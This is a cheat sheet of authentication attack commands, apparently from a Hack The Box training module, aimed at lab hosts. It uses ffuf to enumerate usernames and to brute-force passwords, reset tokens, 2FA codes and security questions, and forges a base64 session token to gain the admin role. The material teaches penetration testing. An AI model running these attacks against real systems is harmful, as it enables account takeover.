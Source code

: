 # Authentication Testing Commands Cheat Sheet

## User Enumeration

### Using ffuf for username enumeration
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt \
     -u http://172.17.0.2/index.php \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=FUZZ&password=invalid" \
     -fr "Unknown user"
```

## Password Brute-forcing

### Count lines in wordlist
```bash
wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

### Filter passwords by policy (uppercase, lowercase, digit, min 10 chars)
```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | \
grep '[[:lower:]]' | \
grep '[[:digit:]]' | \
grep -E '.{10}' > custom_wordlist.txt
```

### Password brute-force with ffuf
```bash
ffuf -w ./custom_wordlist.txt \
     -u http://172.17.0.2/index.php \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=admin&password=FUZZ" \
     -fr "Invalid username"
```

## Token/Code Brute-forcing

### Generate sequential wordlist (0000-9999)
```bash
seq -w 0 9999 > tokens.txt
```

### Check first few lines of wordlist
```bash
head tokens.txt
```

### Brute-force password reset tokens
```bash
ffuf -w ./tokens.txt \
     -u http://weak_reset.htb/reset_password.php?token=FUZZ \
     -fr "The provided token is invalid"
```

### Brute-force 2FA codes with session cookie
```bash
ffuf -w ./tokens.txt \
     -u http://bf_2fa.htb/2fa.php \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" \
     -d "otp=FUZZ" \
     -fr "Invalid 2FA Code"
```

## Session Token Analysis

### Base64 decode session token
```bash
echo -n "dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy" | base64 -d
```

### Base64 encode modified session data
```bash
echo -n 'user=htb-stdnt;role=admin' | base64
```

### Hex encode session data
```bash
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

## Security Question Attacks

### Extract cities from CSV (first field)
```bash
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

### Count wordlist entries
```bash
wc -l city_wordlist.txt
```

### Filter cities by country
```bash
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Brute-force security question with session
```bash
ffuf -w ./city_wordlist.txt \
     -u http://pwreset.htb/security_question.php \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" \
     -d "security_response=FUZZ" \
     -fr "Incorrect response."
```

## Key ffuf Parameters Reference

- `-w`: Wordlist file
- `-u`: Target URL
- `-X POST`: HTTP method
- `-H`: HTTP header
- `-d`: POST data (use FUZZ keyword for fuzzing)
- `-b`: Cookie data
- `-fr`: Filter out responses containing string
- `-fs`: Filter out responses by size
- `-fc`: Filter out responses by HTTP status code
